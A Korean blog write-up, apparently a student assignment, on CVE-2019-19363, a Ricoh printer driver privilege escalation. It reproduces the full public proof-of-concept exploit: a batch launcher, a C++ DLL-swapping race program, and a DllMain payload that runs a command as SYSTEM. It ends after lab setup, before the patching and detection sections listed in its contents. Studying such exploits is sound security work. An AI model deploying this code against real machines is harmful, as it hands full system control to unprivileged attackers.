<style>
.article-head h1 { font-size: 28px; }
.article-body { font-size: 16px; }
.article-body h2 { font-size: 24px; }
.article-body h3 { font-size: 20px; }
.article-body code, .article-body pre { font-size: 14px; }
.article-body .analysis-figure figcaption { font-size: 13px; }
.article-body .analysis-toggle { margin: 18px 0; padding: 12px 16px; border: 1px solid #ded6cb; border-radius: 10px; }
.article-body .analysis-toggle summary { font-weight: 700; }
@media (max-width: 760px) { .article-head h1 { font-size: 23px; } }
</style>

## 목차

- [취약점 간단 요약](#summary)
- [Windows Printer Driver 구조와 드라이버 작동 방식](#printer-driver)
- [CVE-2019-19363의 원인과 영향을 받는 버전](#cause-and-versions)
- [공개된 PoC와 분석 자료 기반 익스플로잇 재현](#poc-reproduction)
- [추가 : ProcMon분석](#procmon-analysis)
- [패치 방법과 탐지·대응 방안 조사](#patch-and-detection)
- [자신의 생각 + 과제를 다 한 후 배운 점](#reflection)

<h2 id="summary">취약점 간단 요약</h2>

CVSS v3.1 : 7.8점(High)<br />벡터: CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

<b>CVE-2019-19363</b>은 <b>Ricoh 계열 Windows 프린터 드라이버의 로컬 권한 상승 취약점이다.</b>

```javascript
Ricoh 계열
- Ricoh는 프린터와 복합기 등을 제조하는 일본 기업이다.
- 이번에 분석할 취약점은 Ricoh와 관련 브랜드에서 사용하는 일부 Windows 프린터 드라이버를 대상으로 한다.

Windows 프린터 드라이버
- 프린터와 Windows 사이의 통역 프로그램이라고 생각하면 편하다.
- 문서 데이터를 프린터가 이해할 수 있는 형식으로 변환한 뒤, Windows 인쇄 시스템을 통해 프린터로 전달하는 역할을 한다.
```

CVE-2019-19363은 이 드라이버가 사용하는 DLL 파일의 권한이 잘못 설정되어 발생하는 취약점이다.

일반 사용자가 정상 DLL을 악성 DLL로 교체하면, 높은 권한의 Windows 프로세스가 해당 DLL을 불러와 실행하면서 공격자의 코드도 SYSTEM 권한으로 실행될 수 있다.

```javascript
SYSTEM 권한
- Windows 운영체제와 주요 서비스가 사용하는 내장 계정의 권한이다.
- 로컬 시스템에서 매우 높은 권한을 가지므로, 공격자가 SYSTEM 권한을 얻으면 사실상 해당 PC를 완전히 제어할 수 있다.
```

<h2 id="printer-driver">Windows Printer Driver 구조와 드라이버 작동 방식</h2>

Windows Printer Driver는 앞에서 간단하게 소개했듯이, 응용 프로그램의 인쇄 요청을 프린터가 이해할 수 있는 데이터로 변환하고 Windows 인쇄 시스템과 프린터를 연결해 주는 핵심적인 역할을 맡는다.

#### 주요 구성 요소

#### Print Spooler

- Windows의 중앙 인쇄 관리자이다.
- 서비스 이름은 Spooler이며, 대표 프로세스는 spoolsv.exe이다.
- 인쇄 작업 접수, 작업 임시 저장, 인쇄 순서 결정 등 프린터와 관련된 핵심적인 일을 맡는다.
- Windows가 시작될 때 함께 실행되며 여러 프로그램과 프린터의 작업을 중재한다.

#### Print Driver

- 프린터 드라이버는 하나의 실행 파일이 아닌, 여러 DLL과 설정 파일로 구성된 소프트웨어 패키지이다.
- Windows의 문서 데이터를 프린터가 이해할 수 있는 명령어로 변환해주는 역할을 맡는다.
- 대표적인 프린터 데이터 형식으로 PCL과 PostScript 등이 있다.

#### 렌더링

- 문서의 문자, 이미지, 표와 같은 정보를 프린터가 실제로 출력할 수 있는 형태로 바꾸는 과정
- 드라이버는 이 과정에서 용지 크기, 해상도, 컬러, 양면 인쇄 등의 설정을 반영한다.

#### Print Processor

- Print Spooler에 저장된 인쇄 데이터를 읽어 최종 전송 형태로 처리하는 역할을 맡는다.
- 페이지 순서, 복사 매수, 작업 취소 등의 기능을 처리할 수 있다.

#### Port Monitor

- 완성된 데이터를 실제 프린터기로 전송하는 단계이다.

#### PrintIsolationHost.exe

- 이 부분이 CVE-2019-19363과 직접적으로 연결되는 중요한 부분이다.
- 프린터 드라이버 DLL을 Print Spooler와 분리된 프로세스에서 실행하는 역할을 맡는다.
- 드라이버 오류가 전체 Print Spooler 서비스에 영향을 주는 것을 줄이기 위한 기능이다.
- 높은 권한으로 드라이버 DLL을 불러올 수 있으므로, 로드되는 DLL을 일반 사용자가 수정할 수 없어야 한다.

#### 간단 요약

```py
1. 사용자가 응용 프로그램에서 인쇄를 요청한다.

2. Print Spooler가 인쇄 작업을 접수하고 스풀 파일에 임시 저장한다.

3. Printer Driver가 문서의 문자와 이미지를 분석하고 프린터가 이해할 수 있는 데이터로 렌더링한다.

4. Print Processor가 스풀된 데이터를 읽고 페이지 순서, 복사 매수 등을 처리한다.

5. Port Monitor가 USB 또는 네트워크를 통해 데이터를 프린터로 전송한다.

6. 프린터가 전달받은 명령을 해석해 종이에 출력한다.
```

<h2 id="cause-and-versions">CVE-2019-19363의 원인과 영향을 받는 버전</h2>

앞서 Windows Printer Driver의 구조와 작동 방식을 설명하면서 PrintIsolationHost.exe가 중요한 구성요소라고 설명했다.

PrintIsolationHost.exe는 프린터 드라이버 DLL을 Print Spooler와 분리된 프로세스에서 불러와 실행한다. 이는 드라이버에 오류가 발생하더라도 Print Spooler 전체가 중단되는 것을 방지하기 위한 기능이다.

프린터 드라이버는 시스템의 인쇄 작업을 처리해야 하므로, PrintIsolationHost.exe가 SYSTEM과 같은 높은 권한으로 동작하는 경우가 있다.<br />이때 불러온 DLL의 코드 역시 PrintIsolationHost.exe와 동일한 권한으로 실행된다.

여기서 취약점이 발생하는 핵심 원인은 Ricoh 프린터 드라이버가 사용하는 DLL과 관련 디렉터리의 접근권한이 잘못 설정되어, 일반 사용자도 DLL을 수정하거나 교체할 수 있었다는 점이다.

일반 사용자가 정상 DLL을 악성 DLL로 교체한 뒤 높은 권한의 PrintIsolationHost.exe가 해당 DLL을 불러오면, 악성 DLL의 코드도 PrintIsolationHost.exe와 동일한 SYSTEM 권한으로 실행된다.

그 결과 일반 사용자 권한을 가진 공격자가 SYSTEM 권한을 획득할 수 있다.

#### 영향 받는 버전

<table>
<colgroup>
<col />
<col width="108" />
<col width="292" />
</colgroup>
<tr>
<td>
영향받는 드라이버
</td>
<td>
취약 버전
</td>
<td>
권장 대응
</td>
</tr>
<tr>
<td>
<b>PCL6 Driver for Universal Print</b>
</td>
<td>
4.0\~4.26
</td>
<td>
4.27 이상으로 업데이트
</td>
</tr>
<tr>
<td>
<b>PS Driver for Universal Print</b>
</td>
<td>
4.0\~4.26
</td>
<td>
4.27 이상으로 업데이트
</td>
</tr>
<tr>
<td>
<b>PC FAX Generic Driver</b>
</td>
<td>
9.0\~9.5<br />10.0\~11.3
</td>
<td>
보안 조치가 적용된 최신 버전 설치
</td>
</tr>
<tr>
<td>
<b>Generic PCL5 Driver</b>
</td>
<td>
1.0\~1.3
</td>
<td>
보안 조치가 적용된 최신 버전 설치
</td>
</tr>
<tr>
<td>
<b>RPCS Driver</b>
</td>
<td>
모델별로 다름
</td>
<td>
공식 다운로드 페이지에서 모델별 확인
</td>
</tr>
<tr>
<td>
<b>PostScript3 Driver</b>
</td>
<td>
모델별로 다름
</td>
<td>
공식 다운로드 페이지에서 모델별 확인
</td>
</tr>
<tr>
<td>
<b>PCL6(PCL XL) Driver</b>
</td>
<td>
모델별로 다름
</td>
<td>
공식 다운로드 페이지에서 모델별 확인
</td>
</tr>
<tr>
<td>
<b>RPCS Raster Driver</b>
</td>
<td>
모든 버전
</td>
<td>
최신 드라이버 또는 Security Updater 적용
</td>
</tr>
</table>

<h2 id="poc-reproduction">공개된 PoC와 분석 자료 기반 익스플로잇 재현</h2>

재현 환경 : Windows 10 22H2 VM 환경 (빌드 19045.3803)

필요한 프로그램

- Ricoh PCL6 UniversalDriver V4.23
- AccessChk
- Process Monitor 및 Process Explorer

### 공개된 PoC 분석

사이트에 보니까 하나의 PoC가 총 3개의 구성요소로 존재하였다.<br />찾아보니 순서대로 <b>실행 제어 → 취약점 악용 → 성공 증명</b>의 역할을 담당하는 구성요소였다.

<details class="analysis-toggle" markdown="1">
<summary>실행 제어</summary>

```bash
REM This example batch script executes the proof of concept exploit.
REM Written by Pentagrid AG, 2019.
REM See https://pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

SET DLL=watermark.dll
SET STEPS=2

SET PRINTERNAME=RICOH PCL6 UniversalDriver V4.23

REM 다른 드라이버를 시험할 경우 사용할 수 있는 프린터 이름
REM SET PRINTERNAME=RICOH Aficio SP 8300DN PCL 6
REM SET PRINTERNAME=RICOH P 501 PCL 6
REM SET PRINTERNAME=RICOH MP C6503 PCL 6

PoC.exe ^
  "%PRINTERNAME%" ^
  "C:\ProgramData\RICOH_DRV\%PRINTERNAME%\_common\dlz\%DLL%" ^
  "RICOH_DRV\%PRINTERNAME%\_common\dlz\%DLL%" ^
  Dll.dll ^
  %STEPS%

REM Wait for a moment
timeout /t 5

dir C:\result.txt
```

이 코드의 역할은 취약점을 악용하는 코드가 아닌 필요한 값을 설정하고 PoC.exe를 실행하는 실행 제어 스크립트이다.

이 배치 파일의 핵심 역할은 다음 세 가지이다.

#### 1. 공격 대상 설정

```bash
SET DLL=watermark.dll
SET STEPS=2
SET PRINTERNAME=RICOH PCL6 UniversalDriver V4.23
```

PoC 실행에 필요한 값을 변수로 설정해 주는 부분이다.<br />이 값들을 변수로 지정해 두면 다른 프린터나 DLL을 시험할 때 해당 부분만 변경하면 된다.

#### 2. PoC.exe 실행

```bash
PoC.exe ^
  "%PRINTERNAME%" ^
  "C:\ProgramData\RICOH_DRV\%PRINTERNAME%\_common\dlz\%DLL%" ^
  "RICOH_DRV\%PRINTERNAME%\_common\dlz\%DLL%" ^
  Dll.dll ^
  %STEPS%
```

실제로 취약점 악용을 수행하는 PoC에 필요한 정보를 전달하는 부분이다.

1. 공격 대상 프린터 이름
2. 교체할 watermark.dll의 전체 경로
3. 파일 변경 이벤트에서 대상을 찾기 위한 상대 경로
4. 정상 DLL을 대신할 공격자 DLL인 Dll.dll
5. 파일 변경 감시에 사용할 단계 값

코드에서는 총 이 5개의 정보를 PoC에 전달하고 있다.

#### 3. 실행 결과 확인

```bash
timeout /t 5
dir C:\result.txt
```

PoC 실행 후 5초 동안 기다리고 공격자 DLL이 높은 권한으로 실행되면 whoami 결과가 C:\\result.txt에 저장된다. 마지막 dir 명령은 이 결과 파일이 생성됐는지 확인하는 역할을 맡는 코드이다.


</details>

<details class="analysis-toggle" markdown="1">
<summary>취약점 악용</summary>

전체 코드는 아래와 같다.

```c++
/*

This proof of concept code monitors file changes on Ricoh's driver DLL files and overwrites
a DLL file before the library is loaded (CVE-2019-19363).

Written by Pentagrid AG, 2019.

Cf. https://pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/

Credits: Alexander Pudwill

This proof of concept code is based on the ReadDirectoryChangesW API call to
get notified about changes on files and directories and reuses parts from the example from
https://www.experts-exchange.com/questions/22507220/ReadDirectoryChangesW-FWATCH-MSDN-sample-not-working.html

*/
#include <stdio.h>
#include <stdlib.h>
#include <conio.h>
#include <windows.h>

#define MAX_BUFFER  4096

int change_counter = 0;
const WCHAR * const BaseDirName = L"C:\\ProgramData";
const WCHAR * TargetDllFullFilePath, * TargetDLLRelFilePath, * MaliciousLibraryFile, * PrinterName;
DWORD dwNotifyFilter = FILE_NOTIFY_CHANGE_LAST_WRITE |
        FILE_NOTIFY_CHANGE_SIZE |
        FILE_NOTIFY_CHANGE_LAST_ACCESS |
        FILE_NOTIFY_CHANGE_CREATION;

typedef struct _DIRECTORY_INFO {
        HANDLE      hDir;
        TCHAR       lpszDirName[MAX_PATH];
        CHAR        lpBuffer[MAX_BUFFER];
        DWORD       dwBufLength;
        OVERLAPPED  Overlapped;
} DIRECTORY_INFO, *PDIRECTORY_INFO, *LPDIRECTORY_INFO;

DIRECTORY_INFO  DirInfo;

void WINAPI HandleDirectoryChange(DWORD dwCompletionPort) {
        DWORD numBytes, cbOffset;
        LPDIRECTORY_INFO di;
        LPOVERLAPPED lpOverlapped;
        PFILE_NOTIFY_INFORMATION fni;
        WCHAR FileName[MAX_PATH];

        do {

                GetQueuedCompletionStatus((HANDLE)dwCompletionPort, &numBytes, (LPDWORD)&di, &lpOverlapped, INFINITE);

                if (di) {
                        fni = (PFILE_NOTIFY_INFORMATION)di->lpBuffer;

                        do {
                                cbOffset = fni->NextEntryOffset;

                                // get filename
                                size_t num_elem = fni->FileNameLength / sizeof(WCHAR);
                                if (num_elem >= sizeof(FileName) / sizeof(WCHAR)) num_elem = 0;

                                wcsncpy_s(FileName, sizeof(FileName)/sizeof(WCHAR), fni->FileName, num_elem);
                                FileName[num_elem] = '\0';
                                wprintf(L"+ Event for %s [%d]\n", FileName, change_counter);

                                if (fni->Action == FILE_ACTION_MODIFIED) {

                                        if (!wcscmp(FileName, TargetDLLRelFilePath)) {

                                                if (change_counter > 0)
                                                        change_counter--;
                                                if (change_counter == 0) {
                                                        change_counter--;

                                                        if (CopyFile(MaliciousLibraryFile, TargetDllFullFilePath, FALSE))
                                                                wprintf(L"+ File %s copied to %s.\n", MaliciousLibraryFile, TargetDllFullFilePath);

                                                        else {
                                                                wchar_t buf[256];

                                                                FormatMessageW(FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                                                                        NULL, GetLastError(), MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT),
                                                                        buf, (sizeof(buf) / sizeof(wchar_t)), NULL);

                                                                wprintf(L"+ Failed to copy file %s to %s: %s\n", MaliciousLibraryFile, TargetDllFullFilePath, buf);
                                                        }

                                                        exit(1);
                                                } // end of trigger part
                                        }
                                } // eo action mod
                                fni = (PFILE_NOTIFY_INFORMATION)((LPBYTE)fni + cbOffset);

                        } while (cbOffset);

                        // Reissue the watch command
                        ReadDirectoryChangesW(di->hDir, di->lpBuffer, MAX_BUFFER, TRUE, dwNotifyFilter, &di->dwBufLength, &di->Overlapped, NULL);
                }
        } while (di);
}

void WINAPI InstallPrinter() {
        WCHAR cmd_buf[1000];
        swprintf(cmd_buf, sizeof(cmd_buf), L"/c rundll32 printui.dll, PrintUIEntry /if /b \"Printer\" /r lpt1: /m \"%s\"", PrinterName);
        wprintf(L"+ Adding printer: %s\n", cmd_buf);

        unsigned long ret = (unsigned long) ShellExecuteW(0, L"open", L"cmd", cmd_buf, NULL, SW_HIDE);
        if(ret <= 32) // That seems to be the way to handle ShellExecuteW's ret value.
                wprintf(L"+ Failed launching command. Return value is %d\n", ret);
}

void WINAPI WatchDirectories(HANDLE hCompPort) {
        DWORD   tid;
        HANDLE  hThread;

        ReadDirectoryChangesW(DirInfo.hDir, DirInfo.lpBuffer, MAX_BUFFER, TRUE, dwNotifyFilter, &DirInfo.dwBufLength, &DirInfo.Overlapped, NULL);

        // Create a thread to sit on the directory changes
        hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)HandleDirectoryChange, hCompPort, 0, &tid);

        // Just loop and wait for the user to quit
        InstallPrinter();
        while (_getch() != 'q');

        // The user has quit - clean up
        PostQueuedCompletionStatus(hCompPort, 0, 0, NULL);

        // Wait for the Directory thread to finish before exiting
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
}


int wmain(int argc, WCHAR *argv[]) {
        HANDLE  hCompPort = NULL;                 // Handle To a Completion Port

        if (argc == 6) {
                PrinterName = argv[1];
                TargetDllFullFilePath = argv[2];
                TargetDLLRelFilePath = argv[3];
                MaliciousLibraryFile = argv[4];
                change_counter = _wtoi(argv[5]);
        }
        else {
                wprintf(L"+ Usage: %s <printer_name> <fullpath_monitor_dll> <rel_path_monitor_dll> <new_dll> <counter>\n", argv[0]);
                return 0;
        }
        wprintf(L"+ Monitoring directory %s\n", BaseDirName);

        // Get a handle to the directory
        DirInfo.hDir = CreateFile(BaseDirName,
                FILE_LIST_DIRECTORY,
                FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
                NULL,
                OPEN_EXISTING,
                FILE_FLAG_BACKUP_SEMANTICS | FILE_FLAG_OVERLAPPED,
                NULL);

        if (DirInfo.hDir == INVALID_HANDLE_VALUE) {
                wprintf(L"Unable to open directory %s. GLE=%ld. Terminating...\n",
                        BaseDirName, GetLastError());
                return 0;
        }

        lstrcpy(DirInfo.lpszDirName, BaseDirName);

        if (HANDLE hFile = CreateFile(TargetDllFullFilePath,
                GENERIC_WRITE,
                FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
                NULL,
                CREATE_ALWAYS,
                FILE_ATTRIBUTE_NORMAL,
                NULL)) {
                wprintf(L"+ File %s created\n", TargetDllFullFilePath);
                CloseHandle(hFile);
        }
        else
                wprintf(L"+ File %s could not be created\n", TargetDllFullFilePath);


        if ((hCompPort = CreateIoCompletionPort(DirInfo.hDir, hCompPort, (ULONG_PTR)&DirInfo, 0)) == NULL) {
                wprintf(L"+ CreateIoCompletionPort() failed.\n");
                return 0;
        }

        wprintf(L"+ Press <q> to exit\n");

        // Start watching
        WatchDirectories(hCompPort);

        CloseHandle(DirInfo.hDir);
        CloseHandle(hCompPort);
        return 1;
}
```

이게 핵심적인 PoC 코드인데 이 부분의 전체 흐름은 다음과 같다.

1. 배치 파일에서 인자를 전달받음
2. 공격 대상 watermark.dll을 초기화함
3. C:\\ProgramData 디렉터리 변경을 감시함
4. Ricoh 프린터 설치를 유도함
5. watermark.dll 변경 이벤트 발생
6. 정상 DLL을 Dll.dll로 교체시킴
7. PrintIsolationHost.exe가 교체된 DLL 로드함
8. DLL 코드가 SYSTEM 권한으로 실행됨

이 순서들만 보면 <b>핵심은 일반 사용자가 수정할 수 있는 DLL을 SYSTEM 권한의 프로세스가 불러오도록 유도</b>한다는 것이다.

이제 코드의 핵심적인 부분들을 자세히 살펴보겠다.

#### <b>1. 배치 파일에서 인자 전달받기</b>

```c++
if (argc == 6) {
    PrinterName = argv[1];
    TargetDllFullFilePath = argv[2];
    TargetDLLRelFilePath = argv[3];
    MaliciousLibraryFile = argv[4];
    change_counter = _wtoi(argv[5]);
}
```

배치 파일에서 전달한 값을 각각의 변수에 저장한다.

- PrinterName: 공격 대상 프린터 이름
- TargetDllFullFilePath: watermark.dll의 전체 경로
- TargetDLLRelFilePath: 변경 이벤트 확인에 사용할 상대 경로
- MaliciousLibraryFile: 공격자 DLL인 Dll.dll
- change\_counter: DLL을 교체할 변경 이벤트 횟수

배치 파일에서 STEPS=2로 설정했으므로 change\_counter에는 2가 저장된다.

#### <b>2. 대상 DLL 초기화</b>

```c++
CreateFile(
    TargetDllFullFilePath,
    GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
    NULL,
    CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL
);
```

CREATE\_ALWAYS를 사용해 기존 watermark.dll의 내용을 비운다.

일반 사용자가 이 작업을 할 수 있는 이유는 <b>해당 DLL과 상위 디렉터리에 Everyone 쓰기 권한이 잘못 부여되어 있기 때문</b>이다. 이후 프린터 설치 과정에서 드라이버가 해당 파일을 다시 생성하거나 수정하도록 유도한다.

#### 3. 파일 변경 감시

```c++
ReadDirectoryChangesW(
    DirInfo.hDir,
    DirInfo.lpBuffer,
    MAX_BUFFER,
    TRUE,
    dwNotifyFilter,
    &DirInfo.dwBufLength,
    &DirInfo.Overlapped,
    NULL
);
```

ReadDirectoryChangesW()를 이용해 C:\\ProgramData와 그 하위 디렉터리에서 발생하는 파일 변경을 감시한다

#### 4. 프린터 설치 유도

```c++
swprintf(
    cmd_buf,
    sizeof(cmd_buf),
    L"/c rundll32 printui.dll, PrintUIEntry /if /b \"Printer\" /r lpt1: /m \"%s\"",
    PrinterName
);

ShellExecuteW(0, L"open", L"cmd", cmd_buf, NULL, SW_HIDE);
```

PrintUIEntry를 호출해 지정한 Ricoh 드라이버를 사용하는 프린터를 설치한다.

> /if: 프린터 설치<br />/b "Printer": 생성할 프린터 이름<br />/r lpt1:: 사용할 포트<br />/m: 사용할 프린터 드라이버 모델


설치 과정에서 Ricoh 드라이버 파일이 생성되거나 수정되어 watermark.dll에 대한 변경 이벤트가 발생한다.

#### 5. 공격자 DLL로 교체

```c++
if (fni->Action == FILE_ACTION_MODIFIED) {
    if (!wcscmp(FileName, TargetDLLRelFilePath)) {
        if (change_counter > 0)
            change_counter--;

        if (change_counter == 0) {
            CopyFile(
                MaliciousLibraryFile,
                TargetDllFullFilePath,
                FALSE
            );
        }
    }
}
```

변경된 파일이 목표로 설정한 watermark.dll인지 확인한다.<br />change\_counter는 처음에 2이므로 아래 행동처럼 작동한다.

```c++
첫 번째 변경 이벤트: 2 → 1
두 번째 변경 이벤트: 1 → 0
DLL 교체 실행
```

카운터가 0이 되면 CopyFile()로 Dll.dll을 watermark.dll 위치에 덮어쓴다.<br />마지막 인자인 FALSE는 대상 파일이 이미 존재해도 덮어쓰겠다는 의미다.

> 이 PoC의 핵심은 <b>일반 사용자가 수정할 수 있는 DLL을 높은 권한의 프로세스가 신뢰하고 불러온다는 점</b>이다.<br /><br />PoC는 파일 변경 시점을 감시하다가 정상 DLL이 로드되기 전에 공격자 DLL로 교체한다.<br />이후 PrintIsolationHost.exe가 교체된 DLL을 높은 권한으로 불러오면, DLL 내부 코드도 같은 권한으로 실행된다.


</details>

<details class="analysis-toggle" markdown="1">
<summary>성공 증명</summary>

전체 코드는 아래와 같다.

```c++
/*
This proof of concept DLL executes a shell command with elevated privileges.
Written by Pentagrid AG, 2019.
*/

#include "stdafx.h"
#include <shellapi.h>

BOOL WINAPI DllMain(
    HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
) {
    WinExec(
        "cmd.exe /c whoami > c:\\result.txt",
        SW_HIDE
    );

    return TRUE;
}
```

코드의 전체적인 흐름은 다음과 같다.

1. 정상 watermark.dll이 위 코드가 포함된 Dll.dll로 교체
2. PrintIsolationHost.exe가 교체된 DLL을 불러옴
3. DLL의 진입점인 DllMain()이 자동으로 실행
4. WinExec()이 숨겨진 명령 프롬프트를 실행
5. whoami 결과가 C:\\result.txt에 저장
6. 파일 내용이 nt authority\\system이면 SYSTEM 권한 실행에 성공한 것으로 판단

이제 중요한 부분만 살펴보도록 하겠다.

```c++
BOOL WINAPI DllMain(...)
```

DllMain()은 DLL이 프로세스에 로드될 때 Windows가 자동으로 호출하는 진입점이다.<br />따라서 PrintIsolationHost.exe가 DLL을 불러오면 이 안에 작성된 코드가 실행된다.

```c++
WinExec(
    "cmd.exe /c whoami > c:\\result.txt",
    SW_HIDE
);
```

whoami로 현재 실행 계정을 확인하고 결과를 C:\\result.txt에 저장한다.<br />SW\_HIDE는 명령 프롬프트 창을 화면에 표시하지 않는다는 의미다.

> 결과는 <code>type C:\result.txt</code> 이 명령어로 확인 가능하다<br /><br />성공하면 <code>nt authority\system</code> ←—- 이렇게 뜸

정리하면 이 코드는 별도의 추가 공격을 수행하기 위한 것이 아니라, <b>교체된 DLL이 SYSTEM 권한으로 실행됐다는 사실을 증명하는 페이로드</b>이다.


</details>

### 환경 구성

#### 취약 드라이버 설치

Ricoh 공식 서버에서 취약한 PCL6 Driver for Universal Print 4.23.0.0을 내려받아 압축을 해제했다. 이후 Windows의 프린터 추가 기능에서 disk1 폴더의 INF 파일을 선택해 RICOH PCL6 UniversalDriver V4.23 프린터 대기열을 생성했다.


<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/01-01-ricoh-driver-installed.png"></a>
  <figcaption>Ricoh PCL6 UniversalDriver V4.23 설치 완료</figcaption>
</figure>

#### 드라이버 폴더 접근권한 확인

드라이버 설치 후 생성된 C:\\ProgramData\\RICOH\_DRV의 접근권한을 AccessChk와 icacls로 확인했다.

```shell
accesschk.exe -accepteula -uwdqs Everyone "C:\ProgramData\RICOH_DRV"
icacls "C:\ProgramData\RICOH_DRV"
```

확인 결과 하위 경로에 RW 권한이 표시되었고, Everyone:(OI)(CI)(F)가 설정되어 있었다. 따라서 일반 사용자를 포함한 모든 사용자가 해당 폴더와 하위 파일을 수정할 수 있는 상태임을 확인했다.

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/02-02-ricoh-acl-confirmed.png"></a>
  <figcaption>RICOH_DRV 폴더의 Everyone 전체 권한 확인</figcaption>
</figure>

#### 대상 DLL 확인

원본 PoC가 대상으로 사용하는 \_common\\dlz\\watermark.dll이 실제로 존재하는지 확인했다. 해당 DLL에도 Everyone:(I)(F)가 적용되어 있어 일반 사용자가 파일을 수정하거나 교체할 수 있었다.

```shell
icacls "C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermark.dll"
```

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/03-03-watermark-dll-confirmed.png"></a>
  <figcaption>watermark.dll 존재 및 Everyone 전체 권한 확인</figcaption>
</figure>

#### 원본 DLL 해시 보관

PoC 실행 전후 파일의 변조 여부를 비교하기 위해 원본 watermark.dll의 SHA-256 해시를 기록했다.

```shell
certutil -hashfile "C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\watermark.dll" SHA256
```

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/04-04-watermark-sha256.png"></a>
  <figcaption>PoC 실행 전 watermark.dll SHA-256 확인</figcaption>
</figure>

그리고 같은 폴더에 총 3개의 파일을 둔다.

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/05-image.png"></a>
</figure>

이제 이걸 실행하기 전에 간단하게 행위를 파악할 수 있는 도구들을 한 줄로 소개해 보겠다.

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/06-4282b54f-3217-43f4-8c56-f10b51b08933.png"></a>
</figure>

- AccessChk: 파일과 디렉터리에 설정된 사용자별 접근 권한을 확인하는 도구
- Process Explorer: 실행 중인 프로세스의 권한과 부모·자식 관계를 확인하는 도구
- Process Monitor: 파일 변경과 DLL 로드 등 시스템 동작을 실시간으로 기록하는 도구

<s>(까먹고 ProcMon 밖에 확인 못함 ㅠㅠㅠ 죄송합니다)</s>

